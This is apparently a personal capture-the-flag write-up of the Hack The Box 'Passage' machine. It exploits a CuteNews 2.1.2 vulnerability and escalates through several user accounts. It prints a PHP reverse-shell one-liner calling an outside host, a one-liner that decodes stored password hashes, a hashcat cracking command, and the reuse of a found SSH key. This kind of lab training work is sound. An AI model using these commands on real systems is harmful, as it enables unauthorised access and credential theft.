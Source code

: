 ```yaml
---
description: https://app.hackthebox.com/machines/Passage
---
```


# 🚒 Passage

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We find 2 TCP ports open:

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

On the web page we see the follwoing information ->

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Fail 2 ban is an anti brute force software:

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So basically with a gobuster I got my IP banned so i'm going to be cautious when it comes to finding subdirectories

through enumeration, i find that it's CuteNews 2.1.2 running with a known CVE ->

{% embed url="https://www.exploit-db.com/exploits/48800" %}

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Very straightforward CVE

We see some PHP files&#x20;

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So with a quick PHP reverse shell ->

```
php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We get a more stable shell

after enumerating a bit, we find where is stored the flat files that are used by cuteCMS as a "database"

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

so we see this is base64 encoded:

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

After looking up a write-up to see how a pro would go quick to go through all of this, i found this crazy one-liner that got me thinking i should start learning those:

```
for f in *; do cat $f | grep -v 'php die'; echo; done | grep . | while read line; do echo $line | base64 -d; echo; done | grep '"pass"'
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**explanation:**

1.  **Loop Over Files**:

    ```sh
    for f in *; do
    ```

    This loop iterates over all files in the current directory (using `*` to match all filenames).
2.  **Process Each File**:

    ```sh
    cat $f | grep -v 'php die'; echo;
    ```

    For each file, it:

    * Uses `cat $f` to read the content of the file.
    * Pipes the content to `grep -v 'php die'`, which filters out any lines containing the string `'php die'`.
    * Uses `echo` to add a newline after processing each file.
3.  **Concatenate and Filter Non-Empty Lines**:

    ```sh
    done | grep . |
    ```

    After processing all files, `done` ends the loop. The output is then piped to `grep .`, which filters out any empty lines (only lines containing at least one character are kept).
4.  **Read and Decode Each Line**:

    ```sh
    while read line; do echo $line | base64 -d; echo; done |
    ```

    This `while` loop reads each non-empty line:

    * `read line` reads a line into the variable `line`.
    * `echo $line | base64 -d` decodes the line from base64 encoding.
    * `echo` adds a newline after each decoded line.

Since we looked at the home directory and saw a paul user, we could guess that this user is the pivoting path, so i added a grep "paul" to the oneliner as a part of contribution

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

took this hash and looked it up and saw it was mode 1400 on hashcat ->

```
hashcat -m 1400 hash.txt /usr/share/wordlists/rockyou.txt
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I could not change user with my low interaction shell so i did a tty upgrade ->

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and we connect&#x20;

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We quickly find an ssh authorization key:

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We copy the id\_rsa key and connect to nadav user ->

<figure><img src="../../.gitbook/assets/image (16) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We'll get root tomorrow&#x20;
